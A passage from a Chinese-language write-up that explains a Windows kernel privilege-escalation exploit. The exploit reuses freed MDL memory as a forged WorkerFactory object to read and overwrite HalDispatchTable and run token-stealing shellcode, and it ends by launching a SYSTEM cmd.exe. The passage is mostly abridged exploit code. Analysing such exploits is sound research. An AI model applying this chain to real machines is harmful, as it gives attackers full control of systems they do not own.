  

因此， 如果我们想要得到原来的 HalQuerySystemInformation 函数地址， 需要 HalDispatchTable + 4 - 0xB4， 因此 Exploit 中的处理逻辑为 (参考 2)：

```
BYTE WorkerFactory[0xA0] = { 0 }; 
……… 
PBYTE pObj = WorkerFactory + 0x28; 
*(DWORD*)(pObj + 0x64) = MyHalDispatchTable - 0xB4 + 4; 
……… 
//读 oldHaliQuerySystemInformation 
//内核会返回0x60字节的数据  需要的数据被放在  kernelRetMem+0x50 
BYTE kernelRetMem[0x60] = { 0 }; 
MyNtQueryInformationWorkerFactory(hWorkerFactory, 7, kernelRetMem, 0x60, NULL); 
oldHaliQuerySystemInformation = *(DWORD*)(kernelRetMem + 0x50);
```

这样就得到了原本 HalQuerySystemInformation 的地址， 我们只需要在 Shellcode 最后恢复他即可。

#### 小节 2

对整个代码回顾， 关键脉络如下：

```
DWORD oldHaliQuerySystemInformation = NULL; 
DWORD MyHalDispatchTable = NULL; 
 
NTSTATUS __stdcall Shellcode(int a,int b,int c,int d) 
{ 
  ………… // 省略的这部分为功能为提取System权限进程的TOKEN到当前进程 
  //恢复Hook 
  *(DWORD*)(MyHalDispatchTable + 4) = oldHaliQuerySystemInformation; 
 
  return 0; 
} 
 
int main(int argc, char** argv) 
{ 
  // 第一次释放MDL 
  DeviceIoControl((HANDLE)s, 0x1207F, (LPVOID)inbuf1, 0x30, NULL, 0, NULL, NULL); 
  ………… 
  // 创建0xA0大小的WorkerFactory对象， 和上面的MDL位于同一内存位置 
  MyNtCreateWorkerFactory(&hWorkerFactory, GENERIC_ALL, NULL, hCompletionPort, (HANDLE)-1, NULL, NULL, 0, 0, 0); 
  ………… 
  // 释放WorkerFactory对象 
  DeviceIoControl((HANDLE)s, 0x120C3, (LPVOID)inbuf2, 0x10, NULL, 0, NULL, NULL); 
  ………… 
  // 再次在同一内存创建伪造的WorkerFactory对象 
  MyNtQueryEaFile(INVALID_HANDLE_VALUE, &IoStatus, 0, 0, 0, WorkerFactory, 0xA0 - 0x4, 0, 0); 
  ………… 
  // 读原语，获取原HaliQuerySystemInformation函数地址 
  oldHaliQuerySystemInformation = *(DWORD*)(kernelRetMem + 0x50); 
  …………
  // 写原语，用Shellcode替换原HaliQuerySystemInformation 
  MyNtSetInformationWorkerFactory(hWorkerFactory, 8, &scAddr, 4);
  ………… 
  // 导致Shellcode执行， 当前进程的TOKEN被替换为System权限的TOKEN 
  MyNtQueryIntervalProfile(2, &Interval); 
  // 创建一个system权限的cmd， 继承System权限Token 
  ShellExecuteA(NULL, "open", "cmd.exe", NULL, NULL, SW_SHOW); 
}
```

